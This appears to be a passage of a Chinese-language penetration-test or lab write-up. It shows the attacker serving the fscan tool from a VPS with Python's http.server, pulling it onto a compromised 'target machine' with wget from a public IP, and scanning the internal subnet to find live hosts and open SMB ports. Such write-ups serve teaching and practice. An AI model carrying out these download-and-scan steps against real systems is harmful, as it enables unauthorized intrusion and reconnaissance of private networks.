 查看内网ip信息

```
ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.30.12.5  netmask 255.255.0.0  broadcast 172.30.255.255
        inet6 fe80::216:3eff:fe12:687e  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:12:68:7e  txqueuelen 1000  (Ethernet)
        RX packets 138078  bytes 125128819 (125.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 74970  bytes 43875716 (43.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2496  bytes 216963 (216.9 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2496  bytes 216963 (216.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

vps中python起一个server

```
python3 -m http.server
```

然后靶机通过wget下载fscan

```
app@web01:~$ wget http://39.106.75.37:8000/fscan
--2025-01-06 23:25:42--  http://39.106.75.37:8000/fscan
Connecting to 39.106.75.37:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7100304 (6.8M) [application/octet-stream]
Saving to: ‘fscan’
```

随后

```
chmod 777 fscan
```

使用fscan对内网网段进行扫描

```
app@web01:~$ ./fscan -h 172.30.12.5/24
./fscan -h 172.30.12.5/24

   ___                              _  
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <  
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.30.12.5     is alive
(icmp) Target 172.30.12.6     is alive
(icmp) Target 172.30.12.236   is alive
[*] Icmp alive hosts len is: 3
172.30.12.6:445 open
172.30.12.6:139 open
```